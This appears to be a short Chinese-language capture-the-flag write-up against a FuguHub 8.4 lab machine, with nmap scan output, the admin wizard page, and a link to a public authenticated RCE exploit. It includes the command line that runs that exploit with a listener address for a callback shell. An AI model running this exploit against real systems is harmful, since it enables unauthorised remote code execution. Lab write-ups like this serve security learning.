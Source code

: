 nmap 結果
```markdown
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 c9:c3:da:15:28:3b:f1:f8:9a:36:df:4d:36:6b:a7:44 (RSA)
|   256 26:03:2b:f6:da:90:1d:1b:ec:8d:8f:8d:1e:7e:3d:6b (ECDSA)
|_  256 fb:43:b2:b0:19:2f:d3:f6:bc:aa:60:67:ab:c1:af:37 (ED25519)
80/tcp   open  http     nginx 1.18.0
|_http-server-header: nginx/1.18.0
|_http-title: 403 Forbidden
8082/tcp open  http     Barracuda Embedded Web Server
| http-webdav-scan: 
|   Server Type: BarracudaServer.com (Posix)
|   Allowed Methods: OPTIONS, GET, HEAD, PROPFIND, PATCH, POST, PUT, COPY, DELETE, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK
|   Server Date: Tue, 24 Dec 2024 08:28:53 GMT
|_  WebDAV type: Unknown
| http-methods: 
|_  Potentially risky methods: PROPFIND PATCH PUT COPY DELETE MOVE MKCOL PROPPATCH LOCK UNLOCK
|_http-title: Home
|_http-server-header: BarracudaServer.com (Posix)
9999/tcp open  ssl/http Barracuda Embedded Web Server
| http-methods: 
|_  Potentially risky methods: PROPFIND PATCH PUT COPY DELETE MOVE MKCOL PROPPATCH LOCK UNLOCK
|_http-title: Home
|_http-server-header: BarracudaServer.com (Posix)
| http-webdav-scan: 
|   Server Type: BarracudaServer.com (Posix)
|   Allowed Methods: OPTIONS, GET, HEAD, PROPFIND, PATCH, POST, PUT, COPY, DELETE, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK
|   Server Date: Tue, 24 Dec 2024 08:28:53 GMT
|_  WebDAV type: Unknown
| ssl-cert: Subject: commonName=FuguHub/stateOrProvinceName=California/countryName=US
| Subject Alternative Name: DNS:FuguHub, DNS:FuguHub.local, DNS:localhost
| Not valid before: 2019-07-16T19:15:09
|_Not valid after:  2074-04-18T19:15:09
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

他的 80 port 禁止訪問 去訪問他的 8082 port
```
http://192.168.191.25:8082/Config-Wizard/wizard/SetAdmin.lsp
```
![image](https://hackmd.io/_uploads/S1ee7WuS1x.png)

在 about 頁面可以發現他的版本號為 8.4 上網找有沒有相關的 exploit 找到[這個](https://github.com/SanjinDedic/FuguHub-8.4-Authenticated-RCE-CVE-2024-27697)可以 RCE 的
```python
python3 exploit.py -r 192.168.191.25 -rp 8082 -l 192.168.45.187 -p 8888
```

連上後就可以在裡面找到 flag 了
![image](https://hackmd.io/_uploads/rkTY60OHJx.png)
